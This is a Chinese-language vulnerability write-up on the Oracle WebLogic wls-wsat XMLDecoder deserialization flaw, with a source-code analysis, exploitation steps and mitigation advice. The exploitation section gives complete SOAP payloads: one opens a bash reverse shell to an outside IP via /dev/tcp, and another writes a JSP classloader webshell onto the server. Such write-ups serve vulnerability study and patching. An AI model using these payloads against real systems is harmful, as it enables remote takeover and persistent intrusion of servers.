








# 漏洞名称：Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞

------

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

---

Oracle Fusion Middleware（Oracle融合中间件）是美国[甲骨文](https://so.csdn.net/so/search?q=甲骨文&spm=1001.2101.3001.7020)（Oracle）公司的一套面向企业和云环境的业务创新平台。该平台提供了中间件、软件集合等功能。Oracle WebLogic Server是其中的一个适用于云环境和传统环境的应用服务器组件。Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

---

### 漏洞危害

攻击者发送精心构造的xml数据甚至能通过反弹shell拿到权限。

---

### 影响范围

OracleWebLogic Server10.3.6.0.0
OracleWebLogic Server12.1.3.0.0
OracleWebLogic Server12.2.1.1.0
OracleWebLogic Server12.2.1.2.0

---

## 漏洞原理

Weblogic的WLS Security组件使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。漏洞入口点是wls-wsat.war，组件使用了weblogic自带的webservices处理程序来处理SOAP请求。通过WLSServletAdapter类进行处理，在WorkContextServerTube类中处理POST数据包中的XML数据。

分析几个重要的函数：

> *WLSServletAdapter类中的handle( )函数：*

```java
public void handle(ServletContext var1, HttpServletRequest var2, HttpServletResponse var3) throws IOException {
        if(var2.getMethod().equals("GET") || var2.getMethod().equals("HEAD")) {
            HttpMetadataPublisher var4 = (HttpMetadataPublisher)this.endpoint.getSPI(HttpMetadataPublisher.class);
            if(var4 != null && var4.handleMetadataRequest(this, this.createConnection(var1, var2, var3))) {
                return;
            }
            if(this.isOraWsdlMetadataQuery(var2.getQueryString())) {
                this.publishWSDL(this.createConnection(var1, var2, var3));
                return;
            }
        }
        super.handle(var1, var2, var3);
    }()
```

进入super.handle()方法。然后跟进函数调用过程中的WorkContextServerTube类。

> *WorkContextServerTube类中的processRequest( )函数：*

```java
public NextAction processRequest(Packet var1) {
        this.isUseOldFormat = false;
        if(var1.getMessage() != null) {
            HeaderList var2 = var1.getMessage().getHeaders();
            Header var3 = var2.get(WorkAreaConstants.WORK_AREA_HEADER, true);
            if(var3 != null) {
                this.readHeaderOld(var3);
                this.isUseOldFormat = true;
            }
            Header var4 = var2.get(this.JAX_WS_WORK_AREA_HEADER, true);
            if(var4 != null) {
                this.readHeader(var4);
            }
        }
        return super.processRequest(var1);
    }
```

var3对象获取了<work:WorkContext> </work:WorkContext>标签的相关内容。

进入到readHeaderOld这个函数。

> *WorkContextTube类中的readHeaderOld( )函数：*

```java
protected void readHeaderOld(Header var1) {
        try {
            XMLStreamReader var2 = var1.readHeader();
            var2.nextTag();
            var2.nextTag();
            XMLStreamReaderToXMLStreamWriter var3 = new XMLStreamReaderToXMLStreamWriter();
            ByteArrayOutputStream var4 = new ByteArrayOutputStream();
            XMLStreamWriter var5 = XMLStreamWriterFactory.create(var4);
            var3.bridge(var2, var5);
            var5.close();
            WorkContextXmlInputAdapter var6 = new WorkContextXmlInputAdapter(new ByteArrayInputStream(var4.toByteArray()));
            this.receive(var6);
        } catch (XMLStreamException var7) {
            throw new WebServiceException(var7);
        } catch (IOException var8) {
            throw new WebServiceException(var8);
        }
    }
```

**Tips：**

> *ByteArrayOutputStream: 可以捕获内存缓冲区的数据，转换成字节数组* *ByteArrayInputStream: 可以将字节数组转化为输入流*

IDEA在调试过程中，会把执行完毕的参数值在后面显示，所以在readHeaderOld( )方法中调试的时候，可看到var4的值为：

```xml
	<java version="1.7.0_80" class="java.beans.XMLDecoder">  
	      <new class="java.lang.ProcessBuilder">  
	           <string>calc</string><method name="start"/>  
	      </new>  
	</java>  
```

其实就是POC中的XML内容。

`var4.toByteArray()`：将var4的内容转为字节数组，然后传入`ByteArrayInputStream`转化为流。之后进入执行`receive( )`函数。

进入`WorkContextXmlInputAdapter `类，接收输入流，转为`XmlDecoder`对象。

```java
	public WorkContextXmlInputAdapter(InputStream var1) {  
	      this.xmlDecoder = new XMLDecoder(var1);  
	  }  
```

随后调用`readObject( )`方法进行反序列化操作，从而导致反序列化远程代码执行。

参照函数调用流程图，可知在`WorkContextTube`类的`readHeaderOld`函数的`receive( )`方法中，进行了多层调用，最终到达`readObject( )`。

跟踪`WorkContextEntrylmpl.class`类：

```java
	public static WorkContextEntry readEntry(WorkContextInput var0) throws IOException, ClassNotFoundException {  
	    String var1 = var0.readUTF();  
	    return (WorkContextEntry)(var1.length() == 0 ? NULL_CONTEXT : new WorkContextEntryImpl(var1, var0));  
	}  
```

调用`readUTF( )`方法，`WorkContextXmlInputAdapter `类中的`readUTF( )`方法如下：

```java
	public String readUTF() throws IOException {  
	        return (String)this.xmlDecoder.readObject();  
	    }  
```

调用`readObject( )`方法，进行反序列化操作，造成漏洞产生，返回反序列化的字符串。

---

## 漏洞利用


---

### 靶机环境





---

### 利用方式 

---

#### 探测确认

利用weblogicScanner(https://github.com/0xn0ne/weblogicScanner)，检查是否存在漏洞。



---

#### 利用过程

使用burpsuite访问http://ip:7001/wls-wsat/CoordinatorPortType 显示如下：



将抓到的包修改为POST请求并加上payload

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.1.189:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 639

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.182.234.169/4444 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```



成功获取shell：



还可以上传webshell，发送如下请求：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.1.189:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 1572


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

上传webshell后使用蚁剑进行连接，如下：





---

## 威胁防护建议

1. 临时解决方案
根据攻击者利用POC分析发现所利用的为wls-wsat组件的CoordinatorPortType接口，若Weblogic服务器集群中未应用此组件，建议临时备份后将此组件删除，当形成防护能力后再进行恢复。

根据实际环境路径，删除WebLogic wls-wsat组件：

```
rm -f   /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm -f /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
```

删除后重启Weblogic域控制器服务:

```
DOMAIN_NAME/bin/stopWeblogic.sh   #停止服务
DOMAIN_NAME/bin/startManagedWebLogic.sh    #启动服务
```

删除以上文件之后，需重启WebLogic。确认http://weblogic_ip/wls-wsat/ 是否为404页面。

2.官方补丁修复
前往Oracle官网下载10月份所提供的安全补丁
http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html
升级过程可参考：
http://blog.csdn.net/qqlifu/article/details/49423839


